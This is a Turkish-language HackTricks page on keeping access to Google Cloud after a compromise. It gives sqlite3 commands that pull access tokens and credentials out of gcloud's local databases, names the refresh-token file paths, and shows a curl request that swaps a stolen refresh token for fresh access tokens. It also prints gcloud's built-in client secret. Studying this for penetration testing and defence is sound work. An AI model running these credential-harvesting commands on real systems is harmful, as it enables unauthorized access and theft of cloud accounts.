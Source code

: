# GCP - Hizmet Dışı Kalıcılık

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

- Şirketinizin **HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

Bir şekilde GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdikten sonra bu teknikler faydalı olabilir.

## Token Kaçırma

### Doğrulanmış Kullanıcı Token'ları

Bir kullanıcının **mevcut token**'ını almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada bu belirteci **gcloud kullanarak doğrudan nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Yeni bir erişim belirteci **oluşturmak için ayrıntıları almak** için çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ayrıca, **`$HOME/.config/gcloud/application_default_credentials.json`** ve **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** dosyalarında yenileme token'ları bulmak mümkündür.

Yenilenmiş bir erişim belirteci almak için **yenileme token'ı**, istemci kimliği ve istemci sırrını kullanarak şunu çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Yenileme belgelerinin geçerliliği **Yönetici** > **Güvenlik** > **Google Cloud oturum kontrolü** bölümünde yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak hiçbir zaman süresiz olarak ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Kimlik doğrulama akışı

`gcloud auth login` gibi bir şey kullandığınızda kimlik doğrulama akışı tarayıcıda bir iletişim kutusu açacak ve tüm kapsamları kabul ettikten sonra tarayıcı, aracın açtığı http bağlantı noktasına şu gibi bir istek gönderecektir:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Sonra, gcloud, birkaç sabit `client_id` (`32555940559.apps.googleusercontent.com`) ve **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) ile durum ve kodu kullanarak **son yenileme belirteci verilerini** alacaktır.

{% hint style="danger" %}
Localhost ile iletişim HTTP üzerinden gerçekleştiği için verileri onararak bir yenileme belirteci almak mümkündür, ancak bu veri sadece 1 kez geçerlidir, bu yüzden bu işe yaramaz, yenileme belirtecini dosyadan okumak daha kolaydır.
{% endhint %}

### OAuth Kapsamları

Tüm OAuth kapsamlarını almak için aşağıdaki komutu çalıştırın:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
### Hizmet Hesapları

Yetkilendirilmiş kullanıcılarda olduğu gibi, bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz genellikle istediğiniz sürece erişebilirsiniz**.\
Ancak, bir hizmet hesabının **OAuth belirteci**ni çalarsanız, bu daha da ilginç olabilir, çünkü varsayılan olarak bu belirteçler genellikle sadece bir saat için kullanışlı olsa da, **kurban özel API anahtarını sildiğinde, OAuth belirteci sona erene kadar hala geçerli olacaktır**.

### Meta Veri

Açıkçası, GCP ortamında çalışan bir makinede olduğunuz sürece, o makineye bağlı hizmet hesabına **metadata uç noktasına başvurarak erişebilirsiniz** (bu uç noktada erişebileceğiniz OAuth belirteçlerinin genellikle kapsamlarla sınırlı olduğunu unutmayın).

### Çözümler

Bu teknikler için bazı çözümler [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
